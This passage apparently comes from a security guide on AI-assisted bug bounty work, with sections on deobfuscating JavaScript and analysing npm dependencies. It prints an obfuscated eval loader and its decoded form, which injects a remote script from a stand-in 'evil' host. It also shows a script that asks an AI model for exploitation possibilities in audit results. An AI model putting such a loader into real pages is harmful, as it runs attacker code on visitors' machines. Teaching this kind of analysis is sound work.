 ### Deobfuscation Assistance

AI can help deobfuscate complex code:

```
Prompt: "Deobfuscate this JavaScript code and explain what it does. Identify any potentially malicious or vulnerable functionality:"
```

Example from a real bug bounty case:

```javascript
// Obfuscated code
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('4 5=3(){9 8=7.d("6");8.e="f/c";8.b="0://a.1/2.h";7.g.i(8)};',19,19,'https|malicioussite|exploit|function|var|loadMalicious|script|document|s|const|evil|src|javascript|createElement|type|text|body|js|appendChild'.split('|'),0,{}))
```

After AI analysis:
```javascript
// Deobfuscated to reveal malicious script loading
var loadMalicious = function() {
  const s = document.createElement("script");
  s.type = "text/javascript";
  s.src = "https://evil.malicioussite/exploit.js";
  document.body.appendChild(s)
};
```

### Third-Party Dependency Analysis

Have AI analyze dependencies for known vulnerable patterns:

```
Prompt: "Review this package.json file and identify any dependencies with known security issues, vulnerable versions, or suspicious maintainers:"
```

Example integration:

```python
# Example script using npm audit data + AI analysis
import json
import subprocess
import openai

# Run npm audit
audit_output = subprocess.check_output(['npm', 'audit', '--json'])
audit_data = json.loads(audit_output)

# Pass to AI for deeper analysis
response = openai.ChatCompletion.create(
    model="gpt-4",
    messages=[
        {"role": "user", "content": f"Analyze these npm audit results and suggest exploitation possibilities for the identified vulnerabilities: {json.dumps(audit_data)}"}
    ]
)

print(response.choices[0].message.content)
```
